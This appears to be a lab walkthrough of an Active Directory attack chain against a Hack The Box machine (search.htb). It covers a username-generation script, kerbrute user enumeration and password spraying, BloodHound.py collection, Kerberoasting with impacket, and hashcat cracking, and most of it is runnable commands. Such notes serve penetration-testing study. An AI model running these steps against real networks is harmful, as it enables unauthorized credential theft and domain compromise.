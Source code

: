 # BloodHound.py

## Get the domain and host name

```bash
$ cme smb 10.10.11.129
```

## Enumerate usernames

### Create usernames

Create a file with the names of staff → `names.txt`:

```bash
John Doe
Alice Stewart
...
```

Python script to create usernames based on `names.txt`:

```python script.py
#!/usr/bin/env python
import sys
import os.path

if __name__ == "__main__": 
    if len(sys.argv) != 2:
        print("usage: {} names.txt".format((sys.argv[0])))
        sys.exit(0)

    if not os.path.exists(sys.argv[1]): 
        print("{} not found".format(sys.argv[1]))
        sys.exit(0)

    for line in open(sys.argv[1]):
        name = ''.join([c for c in line if  c == " " or  c.isalpha()])

        tokens = name.lower().split()

        # skip empty lines
        if len(tokens) < 1: 
            continue

        fname = tokens[0]
        lname = tokens[-1]

        print(fname + lname)           # johndoe
        print(lname + fname)           # doejohn
        print(fname + "." + lname)     # john.doe
        print(lname + "." + fname)     # doe.john
        print(lname + fname[0])        # doej
        print(fname[0] + lname)        # jdoe
        print(lname[0] + fname)        # djoe
        print(fname[0] + "." + lname)  # j.doe
        print(lname[0] + "." + fname)  # d.john
        print(fname)                   # john
        print(lname)                   # joe
```

Just run: `python script.py names.txt`

It will create a list of usernames combining the Name and Lastname.

### Check for valid usernames with kerbrute

You need to be time sync with the target:

```python
$ sudo ntpupdate 10.10.11.129
```

Bruteforce usernames using kerbrute:

```python
$ ./kerbrute userenum --dc 10.10.11.129 -d search.htb users.txt
```

### Password spray with kerbrute

```python
$ ./kerbrute passwordspray --dc 10.10.11.129 -d search.htb users.txt 'SecretPassword'
```

## More enumeration using credentials

### Bloodhound Python

Install:

```python
git clone https://github.com/fox-it/BloodHound.py.git
```

Usage:

```python
python3 bloodhound.py -u hope.sharp -p 'SecretPassword' -d search.htb -ns 10.10.11.129 -c All
```

Start Neo4j:

```python
sudo neo4j console
```

### Bloodhound

[https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)

- Download the latest release

```bash
$ wget https://github.com/BloodHoundAD/BloodHound/releases/download/4.1.0/BloodHound-linux-x64.zip
$ unzip BloodHound-linux-x64.zip
$ cd BloodHound-linux-x64
$ chmod +x BloodHound
$ ./BloodHound
```

Go to Upload Data: Import the `.json` files create by Bloodhound.py.

**FIND KERBEROASTABLE ACCOUNTS**

BloodHound: ANALYSIS → QUERIES

- Find all Domains Admins
    - Mark users as high value if not yet
- List all Kerberoastable Accounts
    
    *Found `web-svc` account.*
    

Use credentials and impacket to extract the hash of Kerberoastable users:

```bash
$ GetUsersSPNs.py search.htb/hope.sharp:SecretPassword
$ GetUsersSPNs.py search.htb/hope.sharp:SecretPassword -outputfile kerbroast.hash
```

Crack the hash:

```bash
$ hashcat kerbroast.hash /usr/share/wordlists/rockyou.txt
```

If password is cracked, mark the `web-svc` user as OWNED and run the queries again.
